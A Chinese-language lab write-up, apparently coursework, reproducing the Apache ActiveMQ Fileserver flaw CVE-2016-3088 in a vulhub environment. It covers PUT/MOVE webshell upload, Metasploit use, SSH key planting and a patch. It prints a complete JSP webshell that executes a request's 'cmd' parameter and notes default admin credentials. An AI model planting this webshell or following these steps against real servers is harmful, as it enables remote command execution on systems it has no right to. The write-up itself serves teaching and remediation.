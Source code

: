 # Apache ActiveMQ Fileserver远程代码执行漏洞(CVE-2016-3088)

**漏洞复现**

使用vulhub搭建环境

靶机IP：192.168.65.131:8161

本机IP:127.0.0.1

靶机IP分为8161控制端口和61616端口

本漏洞出现在fileserver应用中，漏洞原理其实非常简单，就是fileserver支持写入文件（但不解析jsp），同时支持移动文件（MOVE请求）。所以，我们只需要写入一个文件，然后使用MOVE请求将其移动到任意位置，造成任意文件写入漏洞。

漏洞源代码审计：

上传PUT执行代码：

![PUT](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\PUT.PNG)

移动MOVE执行代码：

![MOVE](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\MOVE.PNG)

删除DELETE执行代码：

![DELETE](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\DELETE.PNG)

可见该页面主要漏洞为三个执行代码均未对目的路径（Destination）进行过滤和限制

包括可无需密码访问的FileServer目录

依据以上漏洞原理可采用以下的方法进行利用

下面使用webshell的手工方法对漏洞进行利用：

1主页面登录

用户名默认为admin

密码默认为admin

![主页面](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\主页面.PNG)

提交页面：![提交页面](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\提交页面.PNG)

可通过该页面进行burpsuit的发包等命令执行操作

2使用burpsuit抓包

![抓包](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\抓包.PNG)

修改包上传webshell小马



![捕获1](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\捕获1.PNG)

因为上传动作未被任何过滤因此返回204成功状态码

接下来使用MOVE方法将webshell放在系统可执行目录下

![捕获2](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\捕获2.PNG)

MOVE动作也没有过滤函数，因此返回204成功状态码

小马含返回cmd的控制台命令

<%@ page import="java.io.*" %>
<%
try {
String cmd = request.getParameter("cmd");
Process child = Runtime.getRuntime().exec(cmd);
InputStream in = child.getInputStream();
int c;
while ((c = in.read()) != -1) {
out.print((char)c);
}
in.close();
try {
child.waitFor();
} catch (InterruptedException e) {
e.printStackTrace();
}
} catch (IOException e) {
System.err.println(e);
}
%>

直接访问小马

ls显示当前目录命令

![捕获9](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\捕获9.PNG)

id显示当前用户id组id和用户组的命令

![捕获8](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\捕获8.PNG)

root显示已经获取管理员权限

pwd显示当前目录命令![捕获10](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\捕获10.PNG)

至此使用手工webshell结束

下面是使用metapolit自动化漏洞利用工具进行渗透

1使用对应activemq扫描模块进行扫描，本机出现问题无法扫描成功

![捕获11](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\捕获11.PNG)

2使用漏洞利用模块multi/http/apache_activemq_upload_jsp进行攻击



![捕获12](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\捕获12.PNG)

显示攻击成功可以进入meterpreter

该漏洞也可以利用其可执行的目录和无过滤的命令进行SSH上传登录

首先产生SSH密钥

![ssh1](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\ssh1.PNG)

将该公钥直接上传到无保护的fileserver服务器文件夹中：

![ssh2](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\ssh2.PNG)

将该公钥移动至可执行目录下：

![ssh3](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\ssh3.PNG)

使用SSH进行登录：

![ssh4](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\ssh4.PNG)

漏洞修复：

下载源代码进行修补

先对MOVE方法进行修补



![turn](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\turn.PNG)

![turns](E:\学习\ctf\lessonnote\大作业\渗透msfconsole联合进攻\图\turns.PNG)

修复逻辑：对可执行目录进行过滤，若Destination目标地址参数含有可执行目录则返回错误消息

其他方法修复逻辑同上

ActiveMQ Fileserver 的功能在 5.14.0 及其以后的版本中已被移除。建议用户升级至 5.14.0 及其以后版本。

通过移除 `conf\jetty.xml` 的以下配置来禁用 ActiveMQ Fileserver 功能![img](https://images.seebug.org/content/images/2017/07/--17-1.png-w331s)